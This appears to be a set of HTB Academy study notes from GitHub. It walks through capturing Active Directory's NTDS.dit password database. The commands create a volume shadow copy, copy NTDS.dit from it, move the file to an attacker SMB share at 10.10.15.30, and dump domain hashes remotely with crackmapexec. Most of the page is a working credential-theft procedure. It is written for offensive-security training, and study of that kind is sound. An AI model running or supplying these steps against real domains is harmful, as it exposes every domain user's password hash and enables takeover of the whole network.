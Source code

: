 # Attacking Active Directory NTDS.dit

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/5695c495-1b02-471a-9aac-cc2a54a8155d)

Once a Windows system is joined to a domain, it will no longer default to _referencing the SAM database to validate logon requests_
Keep in mind that we can also study NTDS attacks by keeping track of this [technique](https://attack.mitre.org/techniques/T1003/003/).

# Capturing NTDS.dit
The `.dit` stands for directory information tree. This is the primary database file associated with AD and stores all domain **usernames**, password **hashes**, and other critical schema information.
`NT Directory Services (NTDS)` is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at %systemroot$/ntds on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model).

To make a copy of the `NTDS.dit` file, we need `local admin` (Administrators group) or `Domain Admin` (Domain Admins group) (or equivalent) rights.<br>
Checking local group membership from powershell:
```bash
net localgroup
```
Checking User Account Privileges including Domain
```bash
net user username
```
This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

# Creating Shadow Copy of C:
From powershell:
```bash
vssadmin CREATE SHADOW /For=C:
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/675095d8-1f51-41d8-bb56-4baa179f2d3e)

## Copying NTDS.dit from the VSS
```bash
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\NTDS.dit
```
To transfer file into linux smb server:
```bash
PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```
## Capturing ntds from linux
```bash
crackmapexec smb 10.129.201.57 -u username -p password --ntds
```
